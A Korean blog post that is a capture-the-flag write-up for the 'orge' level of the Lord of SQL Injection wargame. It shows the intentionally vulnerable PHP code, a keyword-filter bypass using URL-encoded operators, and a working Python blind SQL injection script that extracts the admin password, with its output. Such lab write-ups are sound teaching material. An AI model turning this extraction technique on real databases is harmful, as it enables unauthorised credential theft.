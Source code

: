 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orge 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `orge` 이다.  

이 전 문제인 `darkelf`와 Blind SQL Injection 이었던 `orc` 문제가 섞인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw=''
-------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

`or`와 `and` 문자를 사용할 수 없어 `or` 대신에 `||`, `and` 대신에 `&&`를 사용해야 한다.  

또한 입력한 `pw`와 디비에 저장된 `pw`의 값이 같아야 하기 때문에 `Blind SQL Injection`으로 문제를 풀어야 한다.  

그런데 첫 번째 쿼리와 두 번째 쿼리가 살짝 다르다.  

```php
$query1 = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"

$query2 = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"
```

첫 번째 쿼리에서는 `id='guest'`로 되어 있고 두 번째 쿼리에서는 `id='admin'`으로 되어 있다.  

그런데 문제를 풀기 위한 조건은 `admin의 정확한 pw`를 알아내야 하는 것이므로, 첫 번째 쿼리를 통해 `admin`의 `pw`를 알아내고, 두 번째 쿼리를 통해 문제를 풀면 된다.  

`admin`의 `pw`를 알아내기 위한 쿼리 스트링은 다음과 같다.  

```
?pw=1' || id='admin' && length(pw)=1#
```

그런데 `&&`와 `#`은 그냥 입력하면 안되고 `URL Encoding`을 해 넘겨주어야 한다.  

즉, 수정하면 다음과 같다.  

```
?pw=1' || id='admin' %26%26 length(pw)=1%23
```

위의 쿼리 스트링을 토대로 `orc` 문제를 참고 해 아래와 같이 python 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orge_bad2f25db233a7542be75844e314e9f3.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' || id='admin' %26%26 length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' || id='admin' %26%26 substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

실행 시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 7
[+] Found 2 : 7B
[+] Found 3 : 7B7
[+] Found 4 : 7B75
[+] Found 5 : 7B751
[+] Found 6 : 7B751A
[+] Found 7 : 7B751AE
[+] Found 8 : 7B751AEC
[+] Found password :  7B751AEC
[+] End
```

이번에도 역시 `7B751AEC`에서 알파벳을 소문자로 바꿔주어야 문제가 풀렸다.  

```
?pw=7b751aec
```

위와 같이 입력하면 문제를 풀 수 있다.  

```php
-------------------------------------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw='7b751aec'
-------------------------------------------------------------------------------------------

ORGE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

`ORGE Clear!!`
